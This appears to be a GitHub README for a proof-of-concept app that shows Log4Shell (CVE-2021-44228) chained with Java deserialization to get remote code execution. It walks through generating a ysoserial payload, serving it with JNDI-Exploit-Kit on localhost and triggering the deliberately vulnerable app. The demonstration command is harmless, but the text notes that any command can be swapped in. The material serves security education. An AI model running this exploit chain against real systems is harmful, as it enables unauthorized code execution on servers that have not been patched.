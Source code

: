 ## Description
**Basic POC of log4j CVE-2021-44228 originally forked from [LiveOverflow/log4shell](https://github.com/LiveOverflow/log4shell)**

POC application that can be used to see how log4j vulnerability can be combined with Java deserialization vulnerability to obtain RCE even with an updated version on Java.

The application uses a vulnerable version of log4j 2 core and also imports Apache Commons Collections, I refer you [here](https://github.com/frohoff/ysoserial#description) for a really great summary on how "gadget chains" can be used to obtain unsafe deserialization of objects which ultimately leads to Remote Code Execution.

## How to build

To build the application you will need [`maven`](https://maven.apache.org/what-is-maven.html), after you have installed it just run `mvn package` and the compiled .jar will be inside a folder named *target*.

At any point you can play with the source code by updating *src/main/java/HelloLog.java* and then recompile the project to test things out.

## How to use it

Of course you are free to test the application however you want, I'll just show one simple way of doing it:

1. First we'll clone or download [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified) and [pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
2. Inside the ysoserial-modified folder we generate the serialized payload with the following command `java -jar target/ysoserial-modified.jar CommonsCollections6 bash 'mkdir /tmp/pwned' > payload.ser`. *mkidr /tmp/pwned* can be substituted with your own command
3. Move the generated *payload.ser* file inside the JNDI-Exploit-Kit folder
4. Inside the JNDI-Exploit-Kit folder we start the tool executing `java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 127.0.0.1:1389 -P payload.ser`. For a comprehensive documentation refer to the official repository
5. The vulnerable poc app is already set to call the custom payload end point generated by the jndi exploit kit so inside the vulnerable poc app folder you just need to execute `java -jar target/log4shell-1.0-SNAPSHOT.jar`
6. Now if you cd inside */tmp* you should find a folder named *pwned* or see the results of your custom command

## References
* [Zero-Day Exploit Targeting Popular Java Library Log4j](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)
* [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228)
* [A JOURNEY FROM JNDI/LDAP
MANIPULATION TO REMOTE CODE
EXECUTION DREAM LAND](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
* [Serialization and deserialization in Java: explaining the Java deserialize vulnerability](https://snyk.io/blog/serialization-and-deserialization-in-java/)
* [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified)
* [pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
